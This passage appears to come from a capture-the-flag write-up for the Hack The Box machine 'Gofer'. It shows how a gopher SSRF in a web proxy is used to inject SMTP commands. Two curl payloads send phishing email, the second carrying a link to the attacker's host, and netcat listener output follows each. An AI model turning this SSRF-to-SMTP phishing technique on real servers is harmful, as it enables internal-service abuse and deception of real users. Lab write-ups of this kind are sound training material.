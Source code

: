 [Here](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#gopher)'s an example of how to send an SMTP payload through a gopher SSRF. let's just adapt it a little to work on our own machine. Note that of course it's easy to infer the mail address for Jocelyn since we know her familly name from the homepage.  

Bouncing a test payload back to my own machine:
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://10.10.14.218:25/_HELO%252010%252E10%252E14%252E218%250D%250AMAIL%2520FROM%253A%253Cdnedry%2540gopher%252Ehtb%253E%250D%250ARCPT%2520TO%253A%253Cjhudson%2540gopher%252Ehtb%253E%250D%250ADATA%250D%250AFrom%253A%2520%255BDennis%2520Nedry%255D%2520%253Cdnedry%2540gopher%252Ehtb%253E%250D%250ATo%253A%2520%253Cjhudson%2540gopher%252Ehtb%253E%250D%250ADate%253A%2520Sun%252C%252013%2520Aug%25202023%252018%253A20%253A26%2520%252D0400%250D%250ASubject%253A%2520AH%2520AH%2520AH%250D%250A%250D%250AYou%2520didn%2527t%2520say%2520the%2520magic%2520word%2520%2521%250D%250A%250D%250A%250D%250A%252E%250D%250AQUIT%250D'
```
Looks good
```
nc -lknp 25
HELO 10.10.14.218
MAIL FROM:<dnedry@gopher.htb>
RCPT TO:<jhudson@gopher.htb>
DATA
From: [Dennis Nedry] <dnedry@gopher.htb>
To: <jhudson@gopher.htb>
Date: Sun, 13 Aug 2023 18:20:26 -0400
Subject: AH AH AH

You didn't say the magic word !


.
QUIT
```
Improving that just a little bit and put a clickable link in the email to satisfy jocelyn's urges
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://10.10.14.218:25/_HELO%252010%252E10%252E14%252E218%250D%250AMAIL%2520FROM%253A%253Cdnedry%2540gopher%252Ehtb%253E%250D%250ARCPT%2520TO%253A%253Cjhudson%2540gopher%252Ehtb%253E%250D%250ADATA%250D%250AFrom%253A%2520%255BDennis%2520Nedry%255D%2520%253Cdnedry%2540gopher%252Ehtb%253E%250D%250ATo%253A%2520%253Cjhudson%2540gopher%252Ehtb%253E%250D%250ADate%253A%2520Sun%252C%252013%2520Aug%25202023%252018%253A20%253A26%2520%252D0400%250D%250ASubject%253A%2520AH%2520AH%2520AH%250D%250A%250D%250A%253Ca%2520href%253D%2522http%253A%252F%252F10%252E10%252E14%252E218%253A9090%252Findex%252Ehtml%2522%253Epliz%2520coulick%253C%252Fa%253E%250D%250A%250D%250A%250D%250A%252E%250D%250AQUIT%250D'
```

That would look like this:
```bash
nc -lknp 25
HELO 10.10.14.218
MAIL FROM:<dnedry@gopher.htb>
RCPT TO:<jhudson@gopher.htb>
DATA
From: [Dennis Nedry] <dnedry@gopher.htb>
To: <jhudson@gopher.htb>
Date: Sun, 13 Aug 2023 18:20:26 -0400
Subject: AH AH AH

<a href="http://10.10.14.218:9090/index.html">pliz coulick</a>


.
QUIT
```
